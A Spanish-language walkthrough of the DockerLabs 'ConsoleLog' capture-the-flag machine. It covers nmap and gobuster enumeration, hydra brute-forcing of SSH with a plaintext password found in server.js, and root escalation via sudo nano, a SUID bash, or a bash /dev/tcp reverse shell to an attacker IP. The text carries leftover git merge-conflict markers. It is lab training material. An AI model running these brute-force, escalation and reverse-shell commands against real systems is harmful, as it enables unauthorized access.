 # Console Log

En esta lectura se documentara el paso a paso para resolver la maquina ConsoleLog de la plataforma DockerLabs

![image.png](Console%20Log/image.png)

**Descargamos y desplegamos :** 

![image.png](Console%20Log/image%201.png)

Con ping comprobamos que la misma esta activa, el TTL de 64 nos indica que es una maquina Linux : 

![image.png](Console%20Log/image%202.png)

## Enumeración

Realizamos un escaneo con Nmap utilizando un Syn Scan, el cual es más rápido y discreto en entornos reales debido a que no completa el saludo de tres vías. Esto nos permite detectar puertos abiertos de manera eficiente sin establecer conexiones completas, reduciendo así la probabilidad de ser detectados.

```jsx
nmap -sS -p- --open -Pn -n --min-rate=5000 172.17.0.2
```

Encontramos abiertos los siguientes puertos : 

![image.png](Console%20Log/image%203.png)

Realizamos un nuevo escaneo con Nmap, esta vez enfocado únicamente en los puertos abiertos y utilizando el parámetro `-A`. Este parámetro ejecuta un conjunto de scripts de Nmap que permite identificar las versiones de los servicios y del sistema operativo en ejecución."

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
nmap -A -p 80,3000,5000 -Pn -n 172.17.0.2
```

![image.png](Console%20Log/image%204.png)
=======
![image.png](Console%20Log/image%204.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Notamos que los primeros son dos paginas web http y el ultimo es ssh pero en un puerto no estándar

Consultamos a la herramienta **`whatweb`** para ver con que tecnologías esta diseñada la web.

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
whatweb http::172.17.0.2
```

![image.png](Console%20Log/image%205.png)
=======
![image.png](Console%20Log/image%205.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Vamos a ingresar al puerto 80 haber que encontramos : 

![image.png](Console%20Log/image%206.png)

## Explotación

Al ver el código fuente de este sitio, descubrimos un archivo “js” con un token, lo que podría tratarse de una vulnerabilidad a mitigar o informar si esto fuese un caso real al tratarse de data sensible expuesta.

![image.png](Console%20Log/image%207.png)

Al revisar este archivo vemos la siguiente información que nos podría llegar a ser útil, por lo que la guardaremos.

![image.png](Console%20Log/image%208.png)

Ingresamos al segundo puerto abierto para visualizar su contenido pero de momento no es posible acceder:

![image.png](Console%20Log/image%209.png)

Al hacer fuzzing encontramos el directorio backend con archivos útiles. Para esto use la herramienta `gobuster`.

**Gobuster** es una herramienta de fuerza bruta utilizada para descubrir directorios, archivos, subdominios, y hosts virtuales ocultos en un servidor web. Funciona utilizando una lista de palabras (wordlist) para realizar solicitudes repetidas al servidor, lo que permite identificar recursos no visibles o no indexados.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](Console%20Log/image%2010.png)

De estos directorios encontrados con ese diccionario vamos a revisar `/backend` que parece el mas interesante.

![image.png](Console%20Log/image%2011.png)

Encontramos este server.js que me da mucha curiosidad…

![image.png](Console%20Log/image%2012.png)

esa contraseña en texto plano ahí ubicada es muy rara, tenemos un puerto con ssh abierto por lo que vamos a intentar averiguar con hydra si algún usuario la esta utilizando :

<<<<<<< HEAD:DockerLabs/ConsoleLog/Console Log.md
```bash
hydra -L /usr/share/wordlists/rockyou.txt -p password ssh://172.17.0.2:5000 -t 64
```

![image.png](Console%20Log%20/image%2013.png)
=======
![image.png](Console%20Log/image%2013.png)
>>>>>>> d081d6e81c78923b66e2fddcb1645c5d39142d88:DockerLabs/ConsoleLog/Console Log .md

Encontramos al usuario lovely con la contraseña conseguida porque estaba expuesta en texto plano, por lo que nos conectamos mediante ssh al puerto indicado en el escaneo.

```bash
ssh lovely@172.17.0.2 -p 5000
```

![image.png](Console%20Log/image%2014.png)

## Post - explotación / Escalada de privilegios

Realizamos la escalada privilegios, vamos a enumerar los permisos de sudo que tiene el usuario actual, esto lo hacemos con `sudo -l`
El comando `sudo -l` se utiliza para listar los privilegios de `sudo` que tiene el usuario actual.

![image.png](Console%20Log/image%2015.png)

Descubrimos que tiene permisos de sudo para nano por lo que vamos a buscar el en sitio “[https://gtfobins.github.io/](https://gtfobins.github.io/)” si hay una manera de escalar a root con nano.

![image.png](Console%20Log/image%2016.png)

Encontramos esta manera que al ejecutarla nos permite ejecutar comandos como root pero de una manera un poco incomoda…

![image.png](Console%20Log/image%2017.png)

Una vez obtenida de esta manera una consola inestable de root tenemos dos opciones: 

La primera cambiarle los permiso a la bash con **`chmod u+s /bin/bash`**para que
 establecer el bit SUID (Set User ID) en el archivo `/bin/bash`. Esto sirve para que ue cuando cualquier usuario ejecuta el archivo `/bin/bash`, el proceso que se crea tiene los privilegios del propietario del archivo, que en este caso es típicamente el usuario root. Así, cualquier usuario que ejecute `/bin/bash` obtendría una shell con privilegios de root.

![image.png](Console%20Log/image%2018.png)

![image.png](Console%20Log/image%2019.png)

La segunda es mandar una **shell** reversa a un puerto de nuestra maquina atacante y ponernos en escucha con netcat a dicho puerto.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.203/444 0>&1'
```

![image.png](Console%20Log/image%2020.png)

Desde nuestra maquina atacante usamos

```bash
nc -nlvp 444
```

**Esta es otra alternativa  pero se considera mas estable la primera.**

![image.png](Console%20Log/image%2021.png)

**PWNED**!!!

<aside>
💡 Muchas gracias por leer, este es mi primer WriteUp para la plataforma DockerLabs, estaré subiendo mas en estos días, mientras busco seguir aprendiendo.

</aside>

**Saludos!!!**
